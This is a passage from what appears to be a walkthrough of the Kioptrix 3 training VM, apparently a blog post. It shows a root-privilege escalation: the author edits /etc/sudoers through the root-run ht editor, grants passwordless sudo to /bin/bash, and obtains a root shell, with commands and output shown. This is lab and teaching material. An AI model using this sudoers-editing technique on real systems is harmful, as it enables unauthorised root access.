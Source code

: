 Since the ht editor is running as root right now, I can easily open up any file readable only by root. I go to File > Open > /etc/sudoers (Mac users running this on VMware Fusion, it's Option+Command+F):

->![](/images/2012-07-16/06.png)<-

I see the entry for loneferret and update it so loneferret can run the bash shell using sudo. This should give us our root shell:

```
loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht, /bin/bash
```

Save the file, quit the editor, and try running sudo /bin/bash:

```
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
    (root) NOPASSWD: /bin/bash
loneferret@Kioptrix3:~$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
loneferret@Kioptrix3:~$ sudo /bin/bash
root@Kioptrix3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:~# 
```

Game over, I now have a root shell. Looking around the server, I find a /root/Congrats.txt with the following message:
